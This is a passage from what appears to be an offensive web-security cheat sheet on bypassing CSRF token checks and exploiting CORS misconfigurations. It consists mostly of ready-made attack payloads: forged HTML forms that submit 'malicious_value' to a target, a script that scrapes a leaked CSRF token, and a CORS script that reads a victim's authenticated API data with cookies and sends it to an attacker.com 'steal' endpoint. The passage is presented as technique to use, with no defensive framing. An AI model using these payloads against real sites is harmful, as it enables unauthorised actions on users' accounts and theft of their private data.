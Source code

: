 ### Bypass CSRF Token Verification

#### 1. Missing Token Validation

```html
<!-- If the application accepts requests without a token -->
<form action="https://target.com/change_settings" method="POST">
    <!-- Deliberately omitting the token -->
    <input type="hidden" name="setting" value="malicious_value">
</form>
```

#### 2. Token Reuse

```html
<!-- Using a previously obtained valid token -->
<form action="https://target.com/change_settings" method="POST">
    <input type="hidden" name="csrf_token" value="known_valid_token">
    <input type="hidden" name="setting" value="malicious_value">
</form>
```

#### 3. Token Leakage

```javascript
// If CSRF tokens are leaked in JavaScript variables or HTML
fetch('https://target.com/page_with_token')
    .then(response => response.text())
    .then(html => {
        const tokenMatch = html.match(/var csrfToken = "([^"]+)"/);
        const token = tokenMatch[1];
        
        // Use the extracted token
    });
```

### Exploiting CORS Misconfigurations

```html
<script>
    fetch('https://target.com/api_with_cors', {
        credentials: 'include'  // Send cookies
    })
    .then(response => response.json())
    .then(data => {
        // Extract sensitive information
        fetch('https://attacker.com/steal?data=' + JSON.stringify(data));
    });
</script>
```

## CSRF Against Different Request Content Types
